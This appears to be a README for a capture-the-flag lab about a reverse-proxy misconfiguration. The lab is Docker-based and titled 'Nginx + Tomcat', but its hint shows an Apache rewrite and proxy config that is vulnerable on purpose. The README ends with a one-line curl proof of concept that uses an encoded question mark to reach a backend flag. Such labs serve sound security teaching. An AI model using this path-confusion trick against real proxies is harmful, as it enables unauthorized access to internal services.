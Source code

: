 ### Nginx + Tomcat

Try to access http://backend:8080/admin/flag

### Usage

Run
```
sudo docker-compuse up
```

Go http://127.0.0.1:8084/

### Hint

httpd.conf
```
RewriteEngine On
RewriteCond %{REQUEST_URI} .*\.png$
RewriteRule /(.*) http://backend:8080/$1 [P,L]

ProxyPass / http://backend:3000/
ProxyPassReverse / http://backend:3000/

<Directory />
    AllowOverride none
    Require all denied
</Directory>
```

### POC
``` bash
curl --path-as-is 'http://127.0.0.1:8084/flag%3f.png'
```
